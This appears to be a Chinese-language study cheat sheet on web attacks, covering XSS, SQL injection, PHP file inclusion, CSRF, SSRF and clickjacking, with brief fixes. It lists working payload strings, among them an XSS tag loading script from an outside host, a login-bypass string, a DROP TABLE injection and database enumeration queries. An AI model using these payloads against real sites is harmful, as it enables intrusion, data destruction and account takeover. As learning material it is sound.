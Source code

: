 
## 分析工具:
`burpsuite` 抓包 改包

`nmap ncat` 掃port 測port

`whois` and `theharvester` OSINT

`python` 不用多說

`sqlmap` 不用多說

還有瀏覽器的 `F12(Developer tools)` (超級有用!)
### #別當 script kiddy!!


## 常見漏洞

### XSS(Cross Site Scripting)

#### Attacking Vectors
##### 基本
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### Fixing
escape html字元

### SQL 注入

#### Attacking Vectors
##### 檢查是否有漏洞
Common vectors like

`'` and `ORDER BY 1`

Blind-Injections to check without debug info

`' AND 1=1 ` (true) `' AND 1=2 ` (false)

Timing attack

`BENCHMARK(878787878787, ('hey', 'you'))`

##### 註解掉後面的query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
用 `'` 和 `--` 來閉合引號和註解

##### 萬用密碼
`admin 'or'1'='1`

密碼亂打，bypass

如果檢查sql injection則:
##### Common Vectors(MySQL for example)
`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`

##### !No `information_schema` in MySQL < 5!

#### Fixing
預編譯SQL語句

### PHP-Include (上傳漏洞)
PHP 的 include(), require(), include_once(), require_once()可供利用

#### Attacking Vectors
##### file_put_contents寫入
直接

`file_put_contents('path', content')`

##### php偽協議
`data:text/html;ascii, ........`

也可以base64

##### 本地包含(LFI)
透過改包，可以讀取檔案

##### 其他
`../../`上層目錄

用編碼繞防火牆

POST Data 也可以注入payload

### CSRF (Cross-Site-Request-Forgery)
#### Attacking Vectors
將siteB的元素注入到siteA:

`<img src = http://www.siteb.com/blog.php?action=delete></img>`

#### Fixing
檢查referer

captcha

csrf token(保存在server的session裡面，隨機產生)

### SSRF (Server-Side-Request-Forgery)
很像csrf，但是用來訪問內網的server


### ClickJacking

插一個透明的frame，直接設定成網頁大小，無論如何使用者都會點擊到frame的內容
